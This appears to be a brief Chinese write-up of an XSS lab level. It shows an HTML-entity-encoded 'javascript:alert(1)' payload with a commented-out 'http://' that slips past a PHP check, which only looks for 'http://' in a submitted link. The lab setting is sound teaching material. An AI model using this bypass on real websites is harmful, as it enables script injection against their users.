


# 知识点：
unicode编码绕过
# 思路：
payload
```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#32;//http://
```
对payload进行了过滤
```php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
```
将js代码进行编码 外加http:// 再用//将http://注释<br /><br />
